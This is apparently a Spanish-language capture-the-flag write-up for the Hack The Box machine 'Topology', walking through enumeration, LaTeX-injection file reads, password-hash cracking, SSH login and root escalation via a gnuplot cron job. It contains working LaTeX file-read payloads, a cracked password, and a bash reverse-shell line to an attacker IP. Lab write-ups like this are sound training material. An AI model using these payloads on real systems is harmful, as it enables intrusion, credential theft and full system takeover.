Topology es una máquina Linux de dificultad fácil que muestra una aplicación web `LaTeX` susceptible a una vulnerabilidad de inclusión de archivos locales (LFI). La explotación de la falla LFI permite la recuperación de un archivo `.htpasswd` que contiene una contraseña en hash. Al descifrar el hash de la contraseña, se obtiene acceso `SSH` a la máquina, lo que revela un cronjob `root` que ejecuta archivos `gnuplot`. La creación de un archivo `.plt` malicioso permite la escalada de privilegios.

# Enumeración

Iniciamos con la enumeración de los puertos de la maquina victima 

```c
❯ nmap -p- --open --min-rate 5000 -Pn -n -vvv 10.10.11.217 -oG allportsScan
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack

```

- `-p-`: Escanea todos los puertos (del 1 al 65535).
- `--open`: Muestra solo los puertos abiertos.
- `--min-rate 5000`: Establece una tasa mínima de envío de paquetes de 5000 paquetes por segundo.
- `-Pn`: No realiza la fase de descubrimiento del host (asume que el host está activo).
- `-n`: No resuelve nombres DNS.
- `-vvv`: Muestra detalles muy verbosos durante la exploración.
- `10.10.11.217`: La dirección IP del objetivo.
- `-oG allportsScan`: Guarda los resultados del escaneo en un archivo en formato "grepable" llamado `allportsScan`.

Teniendo los puertos abiertos procederemos a enumerar los servicios y versiones de los puertos abiertos.

```c
❯ nmap -p22,80 -sC -sV -vvv -Pn -n 10.10.11.217 -oN servicesScan

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 dc:bc:32:86:e8:e8:45:78:10:bc:2b:5d:bf:0f:55:c6 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC65qOGPSRC7ko+vPGrMrUKptY7vMtBZuaDUQTNURCs5lRBkCFZIrXTGf/Xmg9MYZTnwm+0dMjIZTUZnQvbj4kdsmzWUOxg5Leumcy+pR/AhBqLw2wyC4kcX+fr/1mcAgbqZnCczedIcQyjjO9M1BQqUMQ7+rHDpRBxV9+PeI9kmGyF6638DJP7P/R2h1N9MuAlVohfYtgIkEMpvfCUv5g/VIRV4atP9x+11FHKae5/xiK95hsIgKYCQtWXvV7oHLs3rB0M5fayka1vOGgn6/nzQ99pZUMmUxPUrjf4V3Pa1XWkS5TSv2krkLXNnxQHoZOMQNKGmDdk0M8UfuClEYiHt+zDDYWPI672OK/qRNI7azALWU9OfOzhK3WWLKXloUImRiM0lFvp4edffENyiAiu8sWHWTED0tdse2xg8OfZ6jpNVertFTTbnilwrh2P5oWq+iVWGL8yTFeXvaSK5fq9g9ohD8FerF2DjRbj0lVonsbtKS1F0uaDp/IEaedjAeE=
|   256 d9:f3:39:69:2c:6c:27:f1:a9:2d:50:6c:a7:9f:1c:33 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBIR4Yogc3XXHR1rv03CD80VeuNTF/y2dQcRyZCo4Z3spJ0i+YJVQe/3nTxekStsHk8J8R28Y4CDP7h0h9vnlLWo=
|   256 4c:a6:50:75:d0:93:4f:9c:4a:1b:89:0a:7a:27:08:d7 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOaM68hPSVQXNWZbTV88LsN41odqyoxxgwKEb1SOPm5k
80/tcp open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-title: Miskatonic University | Topology Group
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- `-p22,80`: Escanea solo los puertos 22 (SSH) y 80 (HTTP).
- `-sC`: Utiliza los scripts predefinidos de Nmap para la detección de servicios y vulnerabilidades comunes.
- `-sV`: Detecta la versión del servicio que se ejecuta en cada puerto.
- `-vvv`: Proporciona una salida muy detallada.
- `-Pn`: Omite la fase de descubrimiento del host y asume que el host está activo.
- `-n`: No resuelve nombres DNS, utilizando solo direcciones IP.
- `10.10.11.217`: Dirección IP del objetivo.
- `-oN servicesScan`: Guarda los resultados en un archivo llamado `servicesScan`.

## Sitio web

Visitando el sitio web encontraremos un contenido de una universidad en la que existe un grupo llamado `Topology` que es un grupo matematico.


Revisando un poco mas encontraremos un generador de ecuaciones en el siguiente subdominio [http://latex.topology.htb/equation.php](http://latex.topology.htb/equation.php).



## Subdominios

Enumerando los subdominios con `ffuf` podremos encontrar algunos subdominios mas

```c
❯ ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -fl 175 -H 'Host: FUZZ.topology.htb' -u http://topology.htb
```



Los subdominios que encontramos son:

```c
dev
stats 
```

## Latex  injection - LFI

Buscando por internet encontré varios comandos para poder obtener el contenido de archivos del sistema.

- [https://book.hacktricks.xyz/pentesting-web/formula-csv-doc-latex-ghostscript-injection](https://book.hacktricks.xyz/pentesting-web/formula-csv-doc-latex-ghostscript-injection)

Empecé a probar los siguientes comandos

```c
\input{/etc/passwd}
\include{/etc/passwd}
```

Pero al parecer no podemos lograr ejecutarlo debido a que nos sale el siguiente mensaje



Probando varios modos de leer archivos de la maquina victima.

```c
\lstinputlisting{/etc/passwd}
```

Luego de enviar el anterior comando para generar con latex y vemos un mensaje, este mensaje al parecer es generado debido a que se tiene varias líneas y esto generar el error



Investigando un poco en los siguientes post podemos leer un poco mas sobre este error:

- [https://stackoverflow.com/questions/44616399/latex-formula-error](https://stackoverflow.com/questions/44616399/latex-formula-error).
- [https://nasa.github.io/nasa-latex-docs/](https://nasa.github.io/nasa-latex-docs/html/examples/equation.html#:~:text=%5Cend%7Bequation%7D-,Inline%20Equation,inline%20equation%20with%20a%20%5C%24).

# shell - vdaisley

```c
$ \lstinputlisting{/etc/passwd} $
```

Agregando `$` al inicio y al final podemos generar y obtendremos el `/etc/passwd`  de la maquina victima.



Observamos que existe un usuario e intente leer `/home/vdaisley/.ssh/id_rsa` pero esto no fue posible




## Enumeración de directorios del sitio web

Enumerando muchos archivos de medio por curiosear el archivo `/etc/apache2/sites-enabled/000-default.conf` 

```c
$\lstinputlisting{/etc/apache2/sites-enabled/000-default.conf}$
```

Luego de hacer click en el botón `generar` podremos ver el siguiente contenido









## .htpasswd

Teniendo en cuenta las rutas que leimos en el archivo anterior.

```c
$\lstinputlisting{/var/www/dev/.htpasswd}$
```

En lar ruta `/var/www/dev/.htpasswd` encontraremos algo interesante




```c
vdaisley: $apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0
```

La contraseña esta encriptada y para poder tener en texto plano usaremos `john the ripper` por lo que procederemos a crackear la contraseña.

```c
❯ john --wordlist=/usr/share/wordlists/rockyou.txt hash_vdaisley
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
calculus20       (vdaisley)     
1g 0:00:00:03 DONE (2024-07-23 19:40) 0.3322g/s 330801p/s 330801c/s 330801C/s callel..caitlyn09
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

```

Luego obtendremos la credenciales en texto plano.

```c
vdaisley : calculus20
```

Teniendo la credencial la haremos uso en el subdominio [http://dev.topology.htb/](http://dev.topology.htb/), pero no hay nada interesante.



Luego probaremos contra el servicio `ssh` y podremos iniciar sesión.

```c
❯ ssh vdaisley@10.10.11.217
```



# shell - root

## Procesos

Enumerando los procesos veremos alfo que se ejecuta, que es `find ...` haciendo de `pspy`:

- [Pspy64](https://github.com/DominicBreuker/pspy/releases/tag/v1.2.1)




## gnuplot

Buscando por internet encontré como ejecutar comando como el usuario root con ayuda del procesos que se ejecuta cada minuto.

- [gnuplot-privilege-escalation](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/gnuplot-privilege-escalation/).

Vemos que en el directorio podemos agregar un archivo




El post nos dice que si creamos un archivo con contenido `system [command]` podremos ejecutar comando como el usuario root.

```c
vdaisley@topology:/opt/gnuplot$ echo "system \"bash -c 'bash -i >& /dev/tcp/10.10.14.55/443 0>&1'\"" > test.plt
```

Luego de agregar el archivo nos ponemos a la escucha con `ncat` y esperamos un minuto, luego de un minuto deberíamos obtener una shell cómo el usuario root



